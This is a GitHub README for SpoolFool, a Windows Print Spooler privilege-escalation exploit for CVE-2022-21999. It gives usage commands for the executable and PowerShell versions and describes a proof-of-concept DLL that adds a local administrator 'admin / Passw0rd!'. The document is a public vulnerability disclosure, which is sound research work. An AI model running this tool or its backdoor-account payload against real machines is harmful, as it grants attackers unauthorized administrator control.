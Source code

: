 # SpoolFool

Exploit for CVE-2022-21999 - Windows Print Spooler Elevation of Privilege Vulnerability (LPE)

## Details

The provided exploit should work by default on all Windows desktop versions.

Please see the blog post for full technical details [here](https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81).

## Usage

```powershell
PS C:\SpoolFool> .\SpoolFool.exe

SpoolFool
  By Oliver Lyak (@ly4k_)

Examples:
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll -printer 'My Printer'
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll -dir 'SECRET'
  C:\SpoolFool\SpoolFool.exe -dll add_user.dll -printer 'My Printer' -dir 'SECRET'
```

### Powershell

```powershell
PS C:\SpoolFool> ipmo .\SpoolFool.ps1
PS C:\SpoolFool> Invoke-SpoolFool

SpoolFool
  By Oliver Lyak (@ly4k_)

Examples:
   -dll add_user.dll
   -dll add_user.dll -printer 'My Printer'
   -dll add_user.dll -dir 'SECRET'
   -dll add_user.dll -printer 'My Printer' -dir 'SECRET'
```

## Proof of Concept

The following PoC uses a DLL that creates a new local administrator `admin / Passw0rd!`. The DLL (`AddUser.dll`) and the source code can be found in this repository.

![](imgs/poc.png)

**Second run**

The following PoC demonstrates a second run of the provided exploit. Notice that the vulnerability is not exploited this time in order to load the DLL. 

![](imgs/second_run.png)

## Artifacts

After the exploit has been executed, the following artifacts will be left for later cleanup:
- The created printer driver directory is not removed
- The payload DLL is copied to the printer driver directory and it is not removed
- Any created printer is not removed
- The `SpoolDirectory` value of the targeted printer is not restored

## Authors
- Oliver Lyak [@ly4k_](https://twitter.com/ly4k_)

## References
- [SpoolFool: Windows Print Spooler Privilege Escalation (CVE-2022-21999)](https://research.ifcr.dk/spoolfool-windows-print-spooler-privilege-escalation-cve-2022-22718-bf7752b68d81)